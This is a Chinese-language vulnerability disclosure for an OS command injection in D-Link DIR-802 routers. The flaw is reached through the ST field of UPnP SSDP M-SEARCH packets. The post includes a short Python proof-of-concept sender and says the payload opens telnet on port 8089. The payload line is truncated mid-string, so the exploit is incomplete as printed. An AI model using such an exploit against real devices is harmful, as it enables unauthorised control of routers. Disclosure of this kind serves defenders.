 ```yaml
---
title: DIR-802 OS Command Injection
date: 2021-03-02 13:36:32
tags:
- D-LINK
- UPnP
- 固件模拟
categories:
- IOT
---
```

### D-LINK DIR-802 命令注入漏洞
> by Cool
#### 漏洞已提交厂商
https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10206
#### 漏洞类型
CWE-78: Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection')

#### 受影响设备及软件版本
DIR-802 hardware revision Ax before v1.00b05
https://pmdap.dlink.com.tw/PMD/GetAgileFile?itemNumber=FIR1300450&fileName=DIR802_FW100b05.zip&fileSize=6163759.0;

#### 漏洞概要
DIR-802中存在一个命令注入漏洞，攻击者可以通过精心制作的M-SEARCH数据包向UPnP注入任意命令。

#### 漏洞详情
与CVE-2020-15893相似，在固件版本v-1.00b05之前的D-Link DIR-802 A1上发现了一个问题。默认情况下，端口1900上启用了通用即插即用（UPnP）。攻击者可以通过将有效负载注入SSDP M-SEARCH发现数据包的“搜索目标”（ST）字段来执行命令注入。

#### POC
```python
# coding: utf-8
import socket
import struct
buf = 'M-SEARCH * HTTP/1.1\r\nHOST:192.168.0.1:1900\r\nST:urn:schemas-upnp-org:service
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s.connect(("192.168.0.1", 1900))
s.send(buf)
s.close()
```

#### 漏洞复现
使用firmadyne进行固件模拟，运行UPnP服务
![](https://res.cloudinary.com/dozyfkbg3/image/upload/v1614665628/cve/carbon.png)
攻击者可以是连接到路由器局域网内并且能够向UPnP端口发送请求的任何人。可以通过编写简单的python脚本将精心制作的数据包发送到特定的upnp端口，该脚本随后将作为精心制作的请求的一部分执行提供的命令。共享的POC将打开端口8089上的telnet服务。
![](https://res.cloudinary.com/dozyfkbg3/image/upload/v1614665899/cve/carbon_1.png)
